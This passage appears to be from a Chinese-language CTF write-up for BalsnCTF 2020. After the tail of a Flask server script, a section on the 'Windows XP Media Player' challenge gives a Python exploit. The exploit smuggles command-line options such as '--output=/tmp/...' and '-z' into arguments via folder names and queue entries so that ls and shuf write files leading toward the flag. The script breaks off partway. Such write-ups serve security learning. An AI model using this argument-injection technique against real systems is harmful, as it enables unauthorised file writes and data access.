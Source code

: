 ```python
    </head>
    </html>
    """

    return r,{"Content-Disposition":'attachment; filename="wtf22.html"'}

if(__name__=="__main__"):
    app.run("0.0.0.0",4000)
    
```





## Windows XP Media Player

还是看了[Super⚔️Blue](https://github.com/Super-Guesser/ctf/blob/master/BalsnCTF2020/web/The%20Woven/the_woven_web.py) 的wp

应该静下心来做的

```python
import requests
import time

host = "windows-xp-media-player.balsnctf.com"


def req(s, path):
    return s.get("http://{}{}".format(host, path))


if __name__ == "__main__":
    s1 = requests.Session()

    # create a session
    resp = req(s1, "/")

    # use create playlist to generate the command `mkdir -p ./--output=/tmp/vakzz_in` 
    req(s1, "/?args=-p ./--output=/tmp/vakzz_in&op=create")

    # also create a `-z` folder
    req(s1, "/?args=./-z&op=create")

    # use `--` so that the remaining args are not treated as options, will run `ls -- -z --output=/tmp/vakzz_in /flag/`
    # since all of these folders exist ls will exit cleanly and add our args to the queue
    req(s1, "/q/add?args=-- -z --output=/tmp/vakzz_in /flag/")

    # remove the `--` from the queue
    req(s1, "/q/skip")

    # shuffle the queue which will run `shuf -e -z --output=/tmp/vakzz_in /flag/`
    # this writes final argument as a null terminated string to the specified output file
    req(s1, "/q/shuf")

    # now /tmp/vakzz_in contains `/flag/\x00`

    # rate limit
    time.sleep(10)

    # new session as need more playlists
    s2 = requests.Session()
    resp = req(s2, "/")

```